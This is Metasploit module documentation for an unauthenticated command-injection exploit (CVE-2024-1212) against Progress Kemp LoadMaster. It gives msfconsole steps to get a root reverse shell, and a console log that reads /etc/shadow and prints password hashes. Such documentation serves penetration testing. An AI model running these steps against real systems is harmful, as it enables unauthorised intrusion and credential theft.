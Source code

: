 ## Vulnerable Application
CVE-2024-1212: Progress Kemp LoadMaster Unauthenticated Command Injection

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

## Verification Steps
With privesc:
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_kemp_loadmaster_unauth_cmd_injection`
1. Do: `set RHOSTS <target loadmaster>`
1. Do: `set RPORT <port loadmaster is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a root shell.

Without privesc:
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_kemp_loadmaster_unauth_cmd_injection`
1. Do: `set PRIVESC false`
1. Do: `set RHOSTS <target loadmaster>`
1. Do: `set RPORT <port loadmaster is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the "bal" user.

## Options
The only non-stanard option is PRIVESC.

### PRIVESC

This defaults to true. This enables or disables the use of an automatic privesc from the default "bal" user to root.

## Scenarios

### LoadMaster 7.2.59.0.22007

```
msf6 > use exploit/linux/http/progress_kemp_loadmaster_unauth_cmd_injection
[*] Using configured payload cmd/linux/https/x64/shell/reverse_tcp
msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > set RPORT 8443
RPORT => 8443
msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > set RHOSTS 18.207.251.125
RHOSTS => 18.207.251.125
msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > set LHOST ******
LHOST => ******
msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > exploit

[*] Started reverse TCP handler on *****:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 18.207.251.125:8443 is vulnerable...
[+] The target is vulnerable.
[*] Sending payload...
[*] Sending stage (38 bytes) to 18.207.251.125
[*] Sending stage (38 bytes) to 18.207.251.125
[*] Executing privilege escalation command...
[-] Detected a session initiated too close to the first session. Terminating it.
[*] 18.207.251.125 - Command shell session 2 closed.
[*] Executing privilege escalation command...
[*] Command shell session 2 opened (*****:4444 -> 18.207.251.125:12652) at 2024-03-18 18:34:50 +0000

[-] Invalid session identifier: 2
msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > sessions -i 1
[*] Starting interaction with 1...

[*] Command shell session 1 opened (*****:4444 -> 18.207.251.125:12648) at 2024-03-18 18:35:10 +0000
cat /.mnt/patch_name /etc/shadow
7.2.59.0.22007.RELEASE
root:*:11449:0:10000::::
bin:*:8902:0:10000::::
daemon:*:8902:0:10000::::
nobody:*:0:0:10000::::
sshd:*:0:0:10000::::
bal:$6$9WGRyJ3L$2NojfaoGsP5y7xS/SzvDTfic4Q9VHcKUHWnFKv9GWraldWgKQUc/t8kNQFPh7axajQQLX1GU29K46yiwkd3v.0:11564:0:10000::::
pwreset:vhQQ3AdHBais2:11564:0:10000::::
hsync:*:11564:0:10000::::
xroot:*:11449:1000:10000::::
```
